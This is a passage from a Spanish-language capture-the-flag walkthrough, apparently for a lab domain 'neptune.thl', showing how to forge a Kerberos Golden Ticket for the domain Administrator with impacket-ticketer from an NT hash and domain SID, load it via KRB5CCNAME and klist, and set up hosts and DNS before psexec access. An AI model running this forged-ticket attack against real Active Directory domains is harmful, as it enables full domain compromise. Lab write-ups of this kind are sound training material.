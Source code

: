 A la herramienta **impacket-ticketer**, le indicamos el **Hash NT** (`-nthash`), el usuario a suplantar (`-user`), el grupo al que pertenece el usuario que sería 500 para el administrador (`groups`), el **SID** del dominio (`-domain-sid`), el dominio (`-domain`), la IP de la máquina (`-dc-ip`) y el objetivo que es el **Administrator**:
```bash
impacket-ticketer -nthash 'Hash_NT_de_Administador' -user 'Administrator' -groups 500 -domain-sid 'S-1-5-21-4221554869-2967981397-3876651103' -domain neptune.thl -dc-ip 192.168.56.10 Administrator
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
.
[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for neptune.thl/Administrator
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in Administrator.ccache
```
Ya tenemos el archivo **Administrator.ccache**.

Tenemos que exportarlo como variable de entorno:
```bash
export KRB5CCNAME=Administrator.ccache
```

Podemos comprobar que ya está cargado el archivo **Administrator.ccache** como variable de entorno con la herramienta **klist**:
```bash
klist
Ticket cache: FILE:Administrator.ccache
Default principal: Administrator@NEPTUNE.THL

Valid starting     Expires            Service principal
15/05/25 00:12:39  13/05/35 00:12:39  krbtgt/NEPTUNE.THL@NEPTUNE.THL
	renew until 13/05/35 00:12:39
```
Excelente, ya está cargado.

Y antes de usar **impacket-psexec** para entrar a la máquina, tenemos que revisar un par de cosillas.

Primero, que el dominio esté bien registrado en el `/etc/hosts`:
```bash
nano /etc/hosts
---------------
192.168.56.10 neptune.thl DC01.neptune.thl
```

Configuramos temporalmente un **DNS** para el DC de la máquina víctima en el archivo `/etc/resolv.conf`:
```bash
nano /etc/resolv.conf
--------------------
nameserver 192.168.56.10
```
